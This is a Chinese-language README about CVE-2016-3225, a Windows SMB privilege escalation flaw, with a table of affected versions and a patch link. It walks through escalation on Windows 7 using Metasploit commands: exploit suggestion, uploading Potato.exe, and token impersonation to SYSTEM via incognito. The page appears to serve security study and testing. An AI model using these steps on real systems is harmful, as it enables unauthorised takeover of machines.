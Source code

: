 ### CVE-2016-3225

#### 描述

Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。若要利用此漏洞，攻击者首先必须登录系统。然后，攻击者可以运行一个为利用此漏洞而经特殊设计的应用程序，从而控制受影响的系统。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          | x86/x64          |         |        |                    |
| Windows 10          | x86/x64          | 1511    |        |                    |
| Windows 7           | x86/x64          |         | SP1    | :heavy_check_mark: |
| Windows 8.1         | x86/x64          |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 | x86/x64          |         | SP2    |                    |
| Windows Server 2008 | x86/x64          | R2      | SP1    |                    |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2016-3225
```

#### 利用方式

> 注意：需要用管理员权限运行MSF生成的文件才能提权到system权限

Windows 7 SP1 x64测试中，使用`whoami /priv`命令查看发现并无**SeImpersonatePrivilege**特权烂土豆提权需要该特权为开启状态，所以测试的时候直接用管理员权限运行

![image-20200819140202765](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64.png?raw=true)

利用MSF+烂土豆提权，首先我们假定机器已经上线，通过msf中自带的插件来识别当前系统中可以利用的EXP来进行提权

```
use multi/recon/local_exploit_suggester
set session 1 #当前机器的session
run
```

如果没有用管理员权限运行MSF生成的exe的话，脚本检测是这样的

![image-20200819112155945](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_1.png?raw=true)

如果使用管理员权限运行的话检测是这样的，可以看到比上面多了个ms16_075

![image-20200819140819782](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_2.png?raw=true)

编译好烂土豆的文件

```
potato.exe
```

接着上传编译好的文件

```
upload /Users/ascotbe/Downloads/Potato.exe C:/Users/ascotbe #上传potato.exe到目标机器中的C:\Users\ascotbe目录下,msf无法识别\符号所以必须使用/符号
```

然后执行如下命令即可提权成功了

```
use incognito #加载incoginto功能（用来盗窃目标主机的令牌或是假冒用户)
list_tokens -u #列出目标主机用户的可用令牌
execute -cH -f C:/Users/ascotbe/potato.exe #创建新的进程
list_tokens -u #列出目标主机用户的可用令牌
impersonate_token "NT AUTHORITY\SYSTEM"#假冒目标主机上的可用令牌
```

![image-20200819141240274](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_3.png?raw=true)

进入shell查看

![image-20200819141337651](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64_msf_4.png?raw=true)

> 第二种利用方式

编译方式

- VS2019（V141）X64 Release

由于普通账号没有**SeImpersonatePrivilege**特权，这边用管理员账号来演示，利用程序**potatoNG.exe**直接上GIF图

![4](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2016-3225_win7_x64.gif?raw=true)

